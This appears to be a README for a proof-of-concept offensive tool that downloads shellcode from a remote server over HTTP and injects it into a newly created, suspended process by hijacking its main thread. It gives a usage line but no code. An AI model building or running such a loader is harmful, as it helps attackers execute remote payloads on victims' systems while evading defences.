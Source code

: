 ## SdiWebRemHijack

PoC to perform Remote Process Thread Hijack using shellcode retrieved from remote server via HTTP.

### Usage

`sdiwebremhijack <url> <process>` -> Fetches payload from `<url>`, creates new `<process>` in suspended state, and redirects main thread to point to allocated shellcode.
